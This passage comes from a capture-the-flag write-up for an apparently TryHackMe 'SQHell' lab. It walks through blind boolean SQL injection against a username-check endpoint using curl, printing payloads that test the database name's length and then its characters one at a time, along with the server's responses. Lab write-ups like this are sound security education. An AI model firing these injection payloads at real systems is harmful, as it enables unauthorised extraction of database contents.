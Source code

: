 We still see available is false so we know we can perform SQLi and use the true/false response to confirm our query. Now we know this works our first task is to find the database name. We could continue in the browser, but for speed I'll switch to curl.

## Flag 3 - Blind/Boolean - Curl Method

Let's test how many characters are in the database name:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# curl "http://sqhell.thm/register/user-check?username=admin' AND (length(database())) = 1 --+"
{"available":true}
```

This tells us the database name length isn't 1 character long. Next we try two characters:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# curl "http://sqhell.thm/register/user-check?username=admin' AND (length(database())) = 2 --+"
{"available":true}
```

Same answer for two characters, so we continue adding one and testing until we get a false:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# curl "http://sqhell.thm/register/user-check?username=admin' AND (length(database())) = 8 --+"
{"available":false}   
```

This tells us the length of the name of the database is eight characters. Now we want to find what those eight characters are, we can cheat a little as we can guess it's in the same format as the previous flags. So with the knowledge that it is probably sqhell_3 let's test the first character. To do this we need to know the ASCII code for lower case s, which is 115 known by looking at [this](http://www.asciitable.com/) handy table.

Let's see if the first character is equal to s:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# curl "http://sqhell.thm/register/user-check?username=admin' AND (ascii(substr((select database()),1,1))) = 115 --+"
{"available":false}
```

False tells us the letter isn't available, or in other words there is a match. So we've confirmed the first character is s, let's check for q:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# curl "http://sqhell.thm/register/user-check?username=admin' AND (ascii(substr((select database()),2,1))) = 113 --+"
{"available":false}
```

Note we are checking the second character and seeing if it is equal to 113. Again the false result means it's a match. Looking good lets do the rest:
